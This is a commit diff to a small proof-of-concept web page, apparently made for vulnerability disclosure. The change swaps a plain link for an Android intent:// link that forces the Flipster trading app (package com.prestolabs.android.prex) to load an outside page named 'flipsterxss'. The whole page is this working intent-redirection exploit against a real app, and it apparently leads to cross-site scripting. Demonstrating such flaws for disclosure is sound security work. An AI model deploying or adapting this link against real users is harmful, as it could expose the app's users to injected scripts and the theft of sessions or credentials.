

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Change link to use intent scheme for Flipster
Updated the link to use intent scheme for better reliability.

```diff
--- a/index.html
+++ b/index.html
@@ -4,15 +4,10 @@
     <title>Flipster PoC</title>
 </head>
 <body>
-    <h2>Flipster Intent Redirection PoC</h2>
-    <p>Click the link below on a device with Flipster installed:</p>
-
-    <a href="https://flipster.xyz/https://xaleraf4ra.github.io/flipsterxss/">
-        Open in Flipster
-    </a>
 
     <br><br>
-
-    <!-- Alternative: intent:// scheme for more reliable triggering -->
+    <a href="intent://flipster.xyz/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end">
+        Open in Flipster (intent scheme)
+    </a>
 </body>
 </html>
```
